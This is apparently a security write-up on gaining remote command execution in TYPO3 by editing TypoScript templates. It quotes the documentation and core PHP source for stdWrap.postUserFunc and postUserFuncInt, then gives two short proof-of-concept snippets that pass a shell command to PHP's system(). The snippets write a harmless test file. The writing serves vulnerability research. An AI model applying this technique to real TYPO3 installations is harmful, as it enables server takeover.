



# B4: Tricks with Typo3's template language TypoScript (part 1: Remote Command Execution)

> What is to be rendered on a page in the frontend, the menu structure, how content objects are displayed, etc. can be defined with TypoScript - often it is used in combination with the Fluid templating engine. - docs.typo3.org

TypoScript can have 2 meanings:
- TypoScript syntax is used in TypoScript templates and in TSconfig
- TypoScript templates are used to configure the TYPO3 frontend rendering.

If you are one day in the situation to be able to edit the contents of a Typo3 template then it will be possible for you to exploit the following vulnerabilities:
- Remote Code Execution (RCE)
- SQL injection (SQLi)
- Full Path Disclosure

To find the vulnerabilities you just have to read the docs, it takes time but it is worth it.

General documentation: [https://docs.typo3.org/m/typo3/reference-typoscript/master/en-us/Index.html](https://docs.typo3.org/m/typo3/reference-typoscript/master/en-us/Index.html)

## Remote Code Execution

### Why ?

The complex data type `TEXT` has a property "value" which is defined as having a simple data type "string".

Here is the list of value's property:
- `addParams`
- `cache`
- `Calc`
- `encapsLines`
- `filelink`
- `getEnv`
- `HTMLparser`
- `HTMLparser_tags`
- `if`
- `imageLinkWrap`
- `imgResource`
- `makelinks`
- `numberFormat`
- `numRows`
- `optionSplit`
- `parseFunc`
- `replacement`
- `round`
- `select`
- `split`
- `stdWrap`
- `strPad`
- `tags`
- `typolink`

> When a data type is set to "type /stdWrap" it means that the value is parsed through the `stdWrap` function with the properties of the value as parameters.

When reading the documentation of `stdWrap` it appears that it has two properties which will allow us to achieve the execution fo PHP code:
- `postUserFunc`
    - https://docs.typo3.org/m/typo3/reference-typoscript/10.4/en-us/Functions/Stdwrap.html#postuserfunc
    - https://docs.typo3.org/m/typo3/reference-typoscript/9.5/en-us/Functions/Stdwrap.html#stdwrap-postuserfunc

> Calls the provided PHP function. If you specify the name with a "->" in it, then it is interpreted as a call to a method in a class.
> Two parameters are sent to the PHP function: As first parameter a content variable, which contains the current content. This is the value to be processed. As second parameter any sub-properties of postUserFunc are provided to the function.

File: <span style="color:red">\<ROOT\>/typo3/sysext/frontend/Classes/ContentObject/ContentObjectRenderer.php</span>
```php

...

    /**
     * postUserFunc
     * Will execute a user function after the content has been modified by any other stdWrap function
     *
     * @param string $content Input value undergoing processing in this function.
     * @param array $conf stdWrap properties for postUserFunc.
     * @return string The processed input value
     */
    public function stdWrap_postUserFunc($content = '', $conf = [])
    {
        return $this->callUserFunction($conf['postUserFunc'], $conf['postUserFunc.'], $content);
    }

...

```

- `postUserFuncInt`
    - https://docs.typo3.org/m/typo3/reference-typoscript/10.4/en-us/Functions/Stdwrap.html#postuserfuncint
    - https://docs.typo3.org/m/typo3/reference-typoscript/9.5/en-us/Functions/Stdwrap.html#postuserfuncint

>Calls the provided PHP function. If you specify the name with a "->" in it, then it is interpreted as a call to a method in a class.
>Two parameters are sent to the PHP function: As first parameter a content variable, which contains the current content. This is the value to be processed. As second parameter any sub-properties of postUserFuncInt are provided to the function.

File: <span style="color:red">\<ROOT\>/typo3/sysext/frontend/Classes/ContentObject/ContentObjectRenderer.php</span>
```php

...

    /**
     * postUserFuncInt
     * Will execute a user function after the content has been created and each time it is fetched from Cache
     * The result of this function itself will not be cached
     *
     * @param string $content Input value undergoing processing in this function.
     * @param array $conf stdWrap properties for postUserFuncInt.
     * @return string The processed input value
     */
    public function stdWrap_postUserFuncInt($content = '', $conf = [])
    {
        $substKey = 'INT_SCRIPT.' . $this->getTypoScriptFrontendController()->uniqueHash();
        $this->getTypoScriptFrontendController()->config['INTincScript'][$substKey] = [
            'content' => $content,
            'postUserFunc' => $conf['postUserFuncInt'],
            'conf' => $conf['postUserFuncInt.'],
            'type' => 'POSTUSERFUNC',
            'cObj' => serialize($this)
        ];
        $content = '<!--' . $substKey . '-->';
        return $content;
    }

...

```

### How ?

Exploit using `postUserFunc`:
```
# Start POC of Remote Code Execution
page = PAGE
page.1 = TEXT
page.1 {
   value = echo dGVzdAo=|base64 -d|dd of=/tmp/poc
   stdWrap.postUserFunc = system
}
# End POC of Remote Code Execution
```

Exploit using `postUserFunc`:
```
# Start POC of Remote Code Execution
page = PAGE
page.1 = TEXT
page.1 {
   value = echo dGVzdAo=|base64 -d|dd of=/tmp/poc
   stdWrap.postUserFuncInt = system
}
# End POC of Remote Code Execution
```

#### POC

Edit a template:


Then trigger the content rendering by requesting a page using the template, here the page index.php from the Web application root http://127.0.0.1/projects/typo3/9.5.24/.


